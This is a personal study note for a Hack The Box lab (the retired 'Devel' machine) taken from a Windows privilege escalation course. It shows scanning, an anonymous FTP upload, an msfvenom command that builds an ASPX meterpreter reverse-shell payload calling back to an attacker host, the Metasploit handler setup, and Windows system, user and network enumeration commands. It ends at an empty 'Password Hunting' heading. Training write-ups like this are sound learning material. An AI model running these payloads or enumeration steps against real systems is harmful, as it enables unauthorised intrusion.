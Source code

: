 [Windows Privilege Escalation for Beginners | TCM Security, Inc.](https://academy.tcm-sec.com/p/windows-privilege-escalation-for-beginners)

[Windows Privilege Escalation for Beginners - YouTube](https://youtu.be/uTcrbNBcoxQ)

## Gaining a Foothold

https://app.hackthebox.com/machines/3

**Devel** *(EASY - RETIRED)*

```
sudo nmap -A -T4 -p- 10.129.234.141
```

![[Pasted image 20230530170427.png]]

```
echo "this is a test" > test.txt
```

![[Pasted image 20230530164800.png]]

```
ftp 10.129.234.141
```

*anonymous : anonymous*

```
put test.txt
```

![[Pasted image 20230530170808.png]]

```
http://10.129.234.141/test.txt
```

![[Pasted image 20230530170845.png]]

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f aspx > exploit.aspx
```

![[Pasted image 20230530171010.png]]

```
msfconsole -q
```
```
use exploit/multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```

![[Pasted image 20230530171632.png]]

![[Pasted image 20230530171753.png]]

![[Pasted image 20230530171849.png]]

![[Pasted image 20230530171931.png]]

## Initial Enumeration

### Initial Enumeration *System Enumeration*

```
getuid

sysinfo
```

![[Pasted image 20230530172139.png]]

```
pwd

shell

systeminfo
```

![[Pasted image 20230530172652.png]]

![[Pasted image 20230530172758.png]]

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

![[Pasted image 20230530173134.png]]

```
hostname

wmic qfe
```

![[Pasted image 20230530173421.png]]

*WMIC - Windows Management Instrumentation Command*

*qfe - quick-fix engineering*

[Win32_QuickFixEngineering class - Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/cimwin32prov/win32-quickfixengineering?redirectedfrom=MSDN)

![[Screenshot 2023-05-30 175339.png]]

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

![[Screenshot 2023-05-30 180311.png]]

```
wmic logicaldisk
```

![[Screenshot 2023-05-30 181225.png]]

```
wmic logicaldisk get caption,description,providername
```

![[Pasted image 20230530181515.png]]

### Initial Enumeration *User Enumeration*

```
whomi

whoami /priv
```

![[Pasted image 20230530181813.png]]

```
whoami /groups
```

![[Pasted image 20230530182003.png]]

```
net user
```

![[Pasted image 20230530182557.png]]

```
net user babis
```

![[Pasted image 20230530182638.png]]

```
net user Administrator
```

![[Pasted image 20230530182831.png]]

```
net localgroup

net localgroup administrators
```

![[Pasted image 20230530183242.png]]

### Initial Enumeration *Network Enumeration*

```
ipconfig /all
```

![[Pasted image 20230530183606.png]]

```
arp -a
```

![[Pasted image 20230530183757.png]]

```
route print
```

![[Pasted image 20230530184008.png]]

```
netstat -ano
```

![[Pasted image 20230530184353.png]]



### Initial Enumeration *Password Hunting*



